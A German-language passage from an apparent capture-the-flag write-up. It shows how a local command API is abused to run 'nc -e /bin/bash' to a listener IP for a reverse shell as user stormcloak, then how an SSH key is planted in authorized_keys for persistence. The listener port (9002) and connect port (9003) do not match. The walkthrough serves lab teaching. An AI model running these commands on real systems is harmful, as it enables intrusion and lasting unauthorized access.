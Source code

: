 ### Analyse des Webservice auf Port `3000`

Da der Dienst auf Port 3000 nur lokale Befehle erlaubt, wurde er aus der Reverse-Shell heraus untersucht (als Beutzer `www-data`).

Da der Code zur Webshell im Benutzerverzeichnis liegt (`/home/stormcloak/webshell`) ist davon auszugehen, dass der Service mit anderen Benutzerrechten läuft als `www-data`. Sollte der Service verwundbar sein ist somit eventuell eine Privilege Escalation zum Benutzer Stormcloak möglich.

Ein POST-Request an `/api/v1/command` erlaubte nun die Ausführung von Befehlen, da wir den Request mit der reverse shell von localhost aus ausführen können.
Wie in der JS-Datei entdeckt wurde, muss der parameter `validated=1`gesetzt werden. Ansonsten wird der Request zurückgewiesen. Ein Beispiel mit dem Befehl `id` sieht daher so aus:

```.bash!
curl localhost:3000/api/v1/command -X POST -d "command=id&validated=1"
```

### Reverse Shell mit `curl`

Der nächste Schritt ist nun mit dem POST-Parameter im `curl`-request eine reverse shell aufzubauen. In dieser zweiten reverse shell sollten wir dann alle Rechte vom Benutzer stormcloak haben. Die reverse shell kam dieses mal mit dem Tool `netcat` von beiden Seiten aus zustande.

1. Starten von `netcat`-listener auf `192.168.22.65:9002`:
```.bash!
nc -lvnp 9002
```

2. Erneute Reverse-Shell via `curl`:
```.shell!
curl localhost:3000/api/v1/command -X POST -d "command=nc+-e+/bin/bash+192.168.22.65+9003&validated=1"
```

Dabei sei zu beachten, dass alle Leerzeichen durch +-Zeichen ersetzt wurden, damit beim web-request nichts falsch interpretiert wird.

**Resultat:** ==Erfolgreich, Zugriff als Benutzer `stormcloak`==

**Gefundene Flag:** ==User Flag `user.txt`==

### SSH-Access für eine stabile Verbindung einrichten.

1. SSH Key Pair generieren auf der lokalen Kali-VM:

```bash!
ssh-keygen -t rsa -b 2048 -f ~/.ssh/id_rsa
```

2. Public Key `id_rsa.pub` auf der Zielmaschine `192.168.22.65` hinzufügen.

```bash!
echo "<public_key>" >> ~/.ssh/authorized_keys
chmod 600 ~/.ssh/authorized_keys
```

3. Über `ssh` mit `stormcloak@192.168.22.65` verbinden.
```.bash!
ssh stormcloak@192.168.22.65
```
